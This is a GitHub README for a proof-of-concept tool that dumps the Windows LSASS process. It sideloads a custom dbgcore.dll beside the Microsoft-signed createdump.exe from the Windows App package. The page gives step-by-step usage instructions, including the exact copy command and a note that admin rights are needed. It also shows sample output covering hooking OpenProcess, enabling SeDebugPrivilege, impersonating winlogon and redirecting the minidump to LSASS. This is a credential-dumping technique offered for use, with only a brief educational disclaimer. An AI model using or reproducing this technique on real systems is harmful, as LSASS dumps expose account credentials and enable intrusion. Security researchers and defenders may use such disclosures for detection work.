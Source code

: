 # <img src="https://store-images.s-microsoft.com/image/apps.54073.13902538874112719.524cfb4a-0a7d-45be-bae7-dc1bb3a1c4af.bfaf52ba-a25c-4b1d-b32b-07d3e5c8bb8e?h=210" alt="Windows App" width=32/> Windows App LSASS Dump - Proof of Concept

This project demonstrates how to dump the LSASS process using the `createdump.exe` tool, a Microsoft signed executable, from the Windows App, leveraging a custom hook to enable process access to `LSASS`.

## How to Use

1. **Copy createdump from WindowsApp folder to a folder of choice (`copy C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc\createdump.exe .`)**
2. **place `dbgcore.dll` from this repo in the same folder**
3. **execute createdump (optionally provide parameters)**

##note: needs admin rights.

Output should be something like this:
```
c:\work\_createdump>createdump.exe
WindowsApp PoC by Remko Weijnen
(ab)uses createdump tool from "The WindowsApp" to create an LSASS dump

Successfully hooked OpenProcess
OpenProcess called
Attempting to enable SeDebugPrivilege...
SeDebugPrivilege successfully enabled!
Attempting to impersonate winlogon...
Successfully impersonated winlogon
[createdump] Writing minidump with heap for process 35828 to file C:\Users\me\AppData\Local\Temp\dump.35828.dmp
MiniDumpWriteDump called with:
  ProcessId: 35828
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41a25
ProcessId changed to LSASS (PID: 1512)
Loaded DbgHelp.dll from: C:\Windows\System32\DbgCore.dll
Calling original with:
  ProcessId: 1512
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41026
MiniDumpWriteDump result: Success
[createdump] Dump successfully written in 270ms
DLL unloading, hooks removed.
```

## Disclaimer

This project is intended for educational purposes only. Misuse of this tool could violate privacy and security policies.
